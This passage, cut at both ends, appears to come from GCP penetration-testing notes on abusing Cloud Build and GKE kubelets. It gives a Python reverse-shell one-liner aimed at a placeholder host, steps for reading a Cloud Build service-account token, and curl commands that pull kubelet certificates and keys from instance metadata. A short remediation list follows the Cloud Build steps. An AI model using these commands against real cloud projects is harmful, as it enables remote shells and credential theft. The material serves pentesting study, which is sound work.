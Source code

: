   - import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&quot;IP-ADDRESS&quot;,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([&quot;/bin/sh&quot;,&quot;-i&quot;]);</code></pre><p id="9139a8f3-0e77-4746-85c5-14a10e8ad377" class="">Run the following command:<code>gcloud builds submit --config ./build.yaml .</code></p><p id="fecb48b0-96d9-41aa-8f9b-0aa18807b923" class="">Then, read <code>/root/tokencache/gsutil_token_cache</code> to get Cloud Build service account token</p><ul id="f2d9de1d-832d-41cc-a0ce-abf1d0cdb46e" class="bulleted-list"><li style="list-style-type:disc">check scope of token here: <code>https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=</code></li></ul><h2 id="13e2543e-3243-4f07-8f62-043825d22715" class="">Remediation</h2><ul id="fe4c11f6-4e86-432b-8479-63c48bf864fa" class="bulleted-list"><li style="list-style-type:disc">don’t provide <code>cloudbuild.build.create</code> unless you’re okay with the permissions the Cloud Build service account grants</li></ul><ul id="c3695813-16e9-4cdb-9ded-0a25f5894309" class="bulleted-list"><li style="list-style-type:disc">consider reducing the permissions for the CloudBuild service account </li></ul><h2 id="840dac61-b3a2-4b39-b570-624f777a44fe" class="">GKE</h2><p id="7e6da1c0-25ee-4681-b7dd-811ad9a1ca9b" class=""><a href="https://www.4armed.com/blog/hacking-kubelet-on-gke/">https://www.4armed.com/blog/hacking-kubelet-on-gke/</a></p><p id="a0710017-17f9-4fbe-83fa-82c6700cc599" class=""><a href="https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/">https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/</a></p><h3 id="966e2403-98cb-4a82-8682-ee10fa58a37b" class="">Kubernetes Threat Matrix</h3><p id="61136762-6902-464d-8453-05c657c1d577" class=""><a href="https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/">https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/</a></p><figure id="569df3ee-fee4-461c-8e85-f0201bc7e40e" class="image"><a href="GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%204.png"><img style="width:1440px" src="GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%204.png"/></a></figure><h2 id="e7867a49-98c8-467f-9188-173a02219099" class="">Kubelet</h2><p id="6d78c86f-5665-43af-8853-db79810ab651" class="">Retrieve <code>apiserver.crt</code>, <code>kubelet.crt</code>, and <code>kubelet.key</code></p><pre id="207bcfe6-8575-485c-ac22-c0f20a9f35d1" class="code"><code>curl -s -H &#x27;Metadata-Flavor: Google&#x27; &#x27;http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env&#x27; | grep ^KUBELET_CERT | awk &#x27;{print $2}&#x27; | base64 -d &gt; kubelet.crt
curl -s -H &#x27;Metadata-Flavor: Google&#x27; &#x27;http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env&#x27; | grep ^KUBELET_KEY | awk &#x27;{print $2}&#x27; | base64 -d &gt; kubelet.key